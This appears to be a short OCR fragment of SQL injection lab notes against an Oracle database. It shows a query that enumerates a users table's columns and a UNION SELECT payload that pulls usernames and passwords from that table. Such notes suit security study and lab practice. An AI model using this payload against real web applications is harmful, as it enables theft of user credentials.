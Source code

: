 USERS_TPVQBO
SELECT column_name FROM all_tab_columns WHERE table_name = ‘USERS_TPVQBO’;

USERNAME_FAMENO
PASSWORD_YZSRWB

union select USERNAME_FAMENO, PASSWORD_YZSRWB from USERS_TPVQBO--
